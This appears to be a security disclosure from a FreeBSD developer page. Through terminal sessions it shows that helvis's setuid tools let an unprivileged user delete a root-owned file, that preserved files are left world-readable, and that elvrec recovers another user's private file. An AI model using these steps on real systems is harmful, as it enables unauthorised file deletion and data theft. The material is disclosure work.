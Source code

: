 === Content from people.freebsd.org_ed545585_20250125_085044.html ===

One example why elvprsv should not have setuid permissions:
su-3.00# dd if=/dev/zero of=/tmp/a count=1 bs=2048
1+0 records in
1+0 records out
2048 bytes transferred in 0.000115 secs (17784544 bytes/sec)
su-3.00# perl -e 'print "A" x 12345' >> /tmp/a
su-3.00# ls -al /tmp/a
-rw-r--r-- 1 root wheel 14393 Nov 11 19:16 /tmp/a
su-3.00# su nielsh
su-3.00$ /usr/local/bin/elvprsv /tmp/a
su-3.00$ ls -al /tmp/a
ls: /tmp/a: No such file or directory
su-3.00$
Insecure permissions are used on preserved emails:
su-3.00$ ls -al /var/preserve/
total 22
drwxr-xr-x 2 root wheel 512 Nov 11 19:14 .
drwxr-xr-x 24 root wheel 512 Nov 11 18:09 ..
-rw-r--r-- 1 root wheel 664 Nov 5 15:09 Index
-rw-r--r-- 1 root wheel 15 Nov 5 14:46 p0
-rw-r--r-- 1 root wheel 15 Nov 5 14:49 p141
-rw-r--r-- 1 root wheel 15 Nov 5 14:50 p213
-rw-r--r-- 1 root wheel 15 Nov 5 14:50 p285
-rw-r--r-- 1 root wheel 15 Nov 5 14:51 p357
-rw-r--r-- 1 root wheel 15 Nov 5 14:52 p429
-rw-r--r-- 1 root wheel 15 Nov 5 15:09 p501
-rw-r--r-- 1 root wheel 15 Nov 5 14:48 p70
su-3.00$
A reason to also have a closer look to elvrec is that you
can recover files that belong to others:
$ id
uid=1002(testuser) gid=1003(testuser) groups=1003(testuser)
$ pwd
/home/testuser
bash-3.00$ helvis topsecret.txt
1) now kill the process
2) elvprs should be executed, its recommended bythe author
that this is done automaticly at boot time
bash-3.00$ id
uid=899(nielsh) gid=1001(nielsh) groups=1001(nielsh), 0(wheel)
bash-3.00$ elvrec
/usr/ports/korean/helvis/work/helvis-1.8h2-/rrrr.txt
/usr/ports/korean/helvis/work/helvis-1.8h2-/tast.txt
/usr/home/testuser/topsecret.txt
bash-3.00$ touch /tmp/showme.txt
bash-3.00$ elvrec /usr/home/testuser/topsecret.txt /tmp/showme.txt
bash-3.00$ cat /tmp/showme.txt
This is topsecret information !!!!!
bash-3.00$

